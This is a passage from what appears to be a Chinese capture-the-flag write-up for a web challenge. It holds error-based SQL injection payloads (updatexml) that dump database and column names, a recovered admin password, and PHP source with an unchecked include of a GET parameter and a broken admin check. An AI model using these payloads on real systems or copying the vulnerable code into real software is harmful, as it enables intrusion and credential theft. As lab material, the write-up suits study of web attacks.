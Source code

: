 ```php
      } else {
         $error = "Your Login Name or Password is invalid";
      }

   }
?>
```

使用报错注入得到admin的密码

```
1' and updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1)#
1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users'),0x7e),1) #
```

后面密码长度不够可以使用 left和right函数截断

password yK4TcEhLLkrYr6fymRKxZ4C4KopPx4yL5H

addproduct.php存在文件包含,应该是要拿shell或者通过sql拿到/opt下flag的具体文件名,但是找不到进一步利用点了,sql写文件也没有权限



```php
<?php
// Start session
session_start();
require_once 'config.php';


if (!isset($_SESSION['user']) && $_SESSION['user'] != 'admin') {
    header('Location: index.php');
}

$product_name = trim($_GET['product_name']);
$product_description = trim($_GET['product_description']);
$product_price = $_GET['product_price'];
$errors = [];

if (empty($product_name)) {
    $errors[] = 'Please enter a product name.';
}

if (empty($product_description)) {
    $errors[] = 'Please enter a product description.';
}

if (empty($product_price) || !is_numeric($product_price)) {
    $errors[] = 'Please enter a valid product price.';
}


if (empty($errors)) {
    $stmt = $db->prepare('INSERT INTO products (product_name, product_description, product_price) VALUES (?, ?, ?)');
    $stmt->bind_param('ssd', $product_name, $product_description, $product_price);
    $stmt->execute();
}
$db->close();
if (! empty($_GET['role'])){
    $_SESSION['role'] = $_GET['role'];
    include($_GET['role']);
}
?>
```
---
